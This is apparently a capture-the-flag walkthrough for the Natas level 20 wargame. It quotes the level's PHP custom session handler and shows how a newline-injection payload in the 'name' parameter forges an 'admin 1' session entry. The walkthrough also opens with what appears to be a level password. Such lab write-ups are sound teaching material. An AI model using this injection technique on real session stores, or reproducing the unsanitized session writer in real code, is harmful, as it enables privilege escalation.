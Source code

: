 ```
BPhv63cKE1lkQl04cE5CuFTzXe15NfiH
```

# Solution
To get the password, the function first check if the array `$_Session` contains the key `admin` and its value must be 1
```php
function print_credentials() { /* {{{ */    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {  
    print "You are an admin. The credentials for the next level are:<br>";  
    print "<pre>Username: natas21\n";  
    print "Password: <censored></pre>";  
    } else {  
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";  
    }  
}
```

Whenever we POST with the `change name` button, it generates a new sid and a session file called `mysess` concatenated with the generated sid. The sid is also the cookie.

```php
function mywrite($sid, $data) {    // $data contains the serialized version of $_SESSION  
    // but our encoding is better    debug("MYWRITE $sid $data");    // make sure the sid is alnum only!!    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {    debug("Invalid SID");  
        return;  
    }    $filename = session_save_path() . "/" . "mysess_" . $sid;    $data = "";    debug("Saving in ". $filename);    ksort($_SESSION);  
    foreach($_SESSION as $key => $value) {        debug("$key => $value");        $data .= "$key $value\n";  
    }    file_put_contents($filename, $data);    chmod($filename, 0600);  
    return true;  
}
```

When we load our session, it reads the session file respective to our cookie value. It will read the content LINE BY LINE and injects into the array.
```php
function myread($sid) {    debug("MYREAD $sid");  
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {    debug("Invalid SID");  
        return "";  
    }    $filename = session_save_path() . "/" . "mysess_" . $sid;  
    if(!file_exists($filename)) {        debug("Session file doesn't exist");  
        return "";  
    }    debug("Reading from ". $filename);    $data = file_get_contents($filename);    $_SESSION = array();  
    foreach(explode("\n", $data) as $line) {        debug("Read [$line]");    $parts = explode(" ", $line, 2);  
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];  
    }  
    return session_encode() ?: "";  
}
```

Here, since `myread` is called first, we can utilize the call order to exploit:
```php
session_set_save_handler(    "myopen",    "myclose",    "myread",    "mywrite",    "mydestroy",    "mygarbage");  
session_start();  
  
if(array_key_exists("name", $_REQUEST)) {    $_SESSION["name"] = $_REQUEST["name"];    debug("Name set to " . $_REQUEST["name"]);  
}  
  
print_credentials();
```

Our payload would be:
```
name=whatever%0Aadmin%201
```
